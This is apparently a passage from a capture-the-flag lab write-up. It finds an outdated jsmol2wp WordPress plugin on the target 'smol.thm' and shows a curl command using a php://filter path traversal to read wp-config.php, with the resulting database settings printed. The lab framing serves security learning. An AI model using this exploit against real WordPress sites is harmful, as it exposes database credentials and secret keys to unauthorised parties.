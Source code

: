 And we found `jsmol2wp` plugin which is last updated at 2018 maybe it has some vulnerability.

Lets check that.

<https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/>

And yes It has SSRF vulnerability.

We can exploit the site using this command:

```bash
❯ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php'
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', '********************' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
```